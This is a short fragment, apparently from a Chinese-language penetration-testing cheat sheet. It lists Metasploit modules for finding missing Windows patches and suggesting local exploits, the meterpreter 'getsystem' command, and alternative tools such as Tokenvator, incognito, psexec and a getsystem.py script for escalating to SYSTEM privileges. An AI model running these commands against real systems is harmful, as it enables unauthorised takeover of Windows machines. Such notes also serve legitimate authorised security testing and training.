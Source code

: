 	发现补丁
	>use post/windows/gather/enum_patches
	列举可用EXP
	>use post/multi/recon/local_exploit_suggester
##### getsystem
  	meterpreter> getsystem 
##### getsystem替代者
  	>Tokenvator.exe getsystem cmd.exe 
	>incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe 
	>psexec -s -i cmd.exe 
	>python getsystem.py # from https://github.com/sailay1996/tokenx_privEsc